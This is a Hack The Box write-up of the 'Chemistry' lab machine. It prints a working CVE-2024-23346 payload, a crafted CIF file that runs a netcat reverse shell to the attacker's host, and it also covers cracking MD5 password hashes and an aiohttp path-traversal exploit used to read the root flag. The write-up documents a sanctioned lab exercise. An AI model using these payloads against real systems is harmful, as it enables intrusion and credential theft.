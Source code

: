 <br><br>
**Platform : Hack The Box**

**Box : Chemistry**

**Difficulty : Easy**

**OS : Linux**

<br><br>

Our inital nmap scans reveals two ports open, 22 and 5000.
<br><br>
### `$ nmap -sVC --version-intensity 9 -p 22,5000 -Pn --disable-arp-ping -n chemistry -oN nmap/versions-scan.txt`

`Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org/) ) at 2024-10-22 23:37 CEST`  
`Nmap scan report for chemistry (10.10.11.38)`  
`Host is up (0.51s latency).`

`PORT STATE SERVICE VERSION`  
`22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)` 
`5000/tcp open upnp?` 
`| fingerprint-strings:`  
`| GetRequest:`  
`| HTTP/1.1 200 OK`  
`| Server: Werkzeug/3.0.3 Python/3.9.5`  
`| Date: Tue, 22 Oct 2024 21:37:54 GMT`  
`| Content-Type: text/html; charset=utf-8`  
`| Content-Length: 719`  
`| Vary: Cookie`  
`| Connection: close`  
`|`
`| class="title">Chemistry CIF Analyzer`  
`|`
`Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.`

`<---SNIP--->`


<br><br>
The application provided at port 5000 looks like a parser for *Crystallographic Information Files (CIF)*.
<br><br>
![alt text](<Pasted image 20241023002915-1.png>)
<br><br>
Surfing the web we find the recent *CVE-2024-23346* 

https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

A vulnerability in the parsing library *Pymatgen versions prior to 2024.2.8*, that executes arbitrary code via *insecure serializazion*.

All we need to do is craft a malicious .cif file, and then inject the command we want to execute in it. We have a template of the file's structure in the link above:

<br><br>

> *data_Example*
>
> *audit_creation_date            2018-06-08*
> 
> *_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"*
> 
> *loop*
> 
> *parent_propagation_vector.id*
> 
> *_parent_propagation_vector.kxkykz*
> 
> *k1 [0 0 0]*
> 
> 
> *_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ()._class_._mro_[1]._getattribute_ ( *[().__class__.__mro__[1]]+["_sub" + "classes_"]) () if d._name_ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.15.56 1337 -e sh");0,0,0'*
> 
> 
> 
> *_space_group_magn.number_BNS  62.448*
> 
> *_space_group_magn.name_BNS  "P  n'  m  a'  "*
> 
> 

<br><br>
Experimenting with an active handler and a series of bash payloads from https://www.revshells.com/, we find the right one to be:
<br><br>
> *busybox nc 10.10.15.56 1337 -e sh*

<br><br>

Which allows us to gain a reverse shell:

<br><br>

![alt text](<Pasted image 20241023004209-1.png>)

<br><br>

Checking the app's directory, we're able to retrieve the .db database that has stored all the *user's md5 hashes*, encoded with the following algorythm, as we can read in the *app.py* file.
<br><br>

>    hashed_password = hashlib.md5(password.encode()).hexdigest()

<br><br>

![alt text](<Pasted image 20241023010333-1.png>)

<br><br>

![alt text](<Pasted image 20241023010740-1.png>)

<br><br>

A rapid visit to https://crackstation.net reveals us the cleartext password of rosa's user:

<br><br>

![alt text](<Pasted image 20241102202421.png>)

<br><br>

This is our initial foothold on the machine. We have credentials to access ssh:

<br><br>

> *rosa:<ROSA'S_PASSWORD>*

<br><br>

Running linpeas.sh on the machine, we find out a *service listening on port 8080* of localhost

<br><br>

![alt text](<Pasted image 20241023012150-1.png>)

<br><br>

To enumerate this service, we perform an *SSH tunneling* to our host, using the following command:

<br><br>

`ssh -L 8080:localhost:8080 rosa@10.10.11.38`

<br><br>

This forwards *our localhost's* port 8080 to port 8080 running on 127.0.0.1 (localhost) remote machine.
A rapid nmap scan shows us that Chemistry is running *aiohttp 3.9.1*

<br><br>

![alt text](<Pasted image 20241023012150-2.png>) 

<br><br>

![alt text](<Pasted image 20241102193940-1.png>) 

<br><br>

![alt text](<Pasted image 20241102200205.png>)

<br><br>

and this is the first result if i search it on google:

<br><br>

https://github.com/z3rObyte/CVE-2024-23334-PoC

<br><br>

It looks like aiohttp software it is vulnerable to *path traversal* up to version *3.9.1*. We're going to modify a bit the script to make it run on *our* localhost's port 8080 and try to read *root's flag*. 

<br><br>

![alt text](<Pasted image 20241102200634.png>)

<br><br>

And...

<br><br>

![alt text](<Pasted image 20241102201153.png>)

<br><br>

Success! We have code execution as root user!
